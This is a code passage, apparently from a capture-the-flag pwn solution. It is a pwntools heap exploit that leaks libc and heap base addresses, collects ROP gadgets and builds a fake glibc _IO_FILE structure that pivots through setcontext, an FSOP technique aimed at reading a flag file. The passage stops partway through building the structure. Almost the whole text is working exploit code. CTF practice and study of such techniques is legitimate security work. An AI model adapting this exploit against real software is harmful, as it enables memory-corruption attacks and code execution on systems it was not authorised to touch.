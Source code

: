 ```plain
    p.sendlineafter(":",str(idx))
    p.sendafter(":",content)



add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

h0 = p.recv(10).ljust(8,b"\x00")

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))

dbg()
pop_rdi =libc_base + 0x000000000002a3e5 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002be51 # pop rsi ; ret
pop_rdx_r12 = libc_base +0x000000000011f497 # pop rdx ; pop r12 ; ret
pop_rax = libc_base + 0x0000000000045eb0 # pop rax; ret; 
ret = libc_base + 0x0000000000029cd6# ret;
stderr=libc_base+libc.sym['stderr']
setcontext=libc_base+libc.sym['setcontext']
close=libc_base+libc.sym['close']
read=libc_base+libc.sym['read']
puts=libc_base+libc.sym['puts']
syscall_ret=libc_base + 0x0000000000091396 # syscall; ret; 
_IO_wfile_jumps = libc_base +0x2160c0
fake_io_addr = heap_base + 0xb00
rop_addr = heap_base + 0x2050
flag_addr = heap_base + 0x17d0
# _flags = 0 #_IO_read_ptr = 0x421

fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
```